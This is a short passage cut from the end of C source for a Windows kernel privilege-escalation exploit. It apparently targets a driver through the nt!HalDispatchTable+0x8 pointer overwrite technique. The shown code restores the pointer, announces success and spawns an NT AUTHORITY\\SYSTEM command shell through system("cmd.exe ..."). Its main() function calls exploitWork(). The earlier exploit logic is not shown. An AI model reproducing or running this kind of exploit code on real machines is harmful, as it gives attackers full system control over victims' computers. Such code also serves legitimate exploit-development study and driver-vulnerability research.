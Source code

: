 ```c

									// Error handling
									if (!interact15)
									{
										printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
									}
									else
									{
										printf("[+] Successfully restored the pointer at nt!HalDispatchTable+0x8!\n");
										printf("[+] Enjoy the NT AUTHORITY\\SYSTEM shell!\n");

										// Spawning an NT AUTHORITY\SYSTEM shell
										system("cmd.exe /c cmd.exe /K cd C:\\");
									}
								}
							}
						}
					}
				}
			}
		}
	}
}

// Call exploitWork()
void main(void)
{
	exploitWork();
}
```
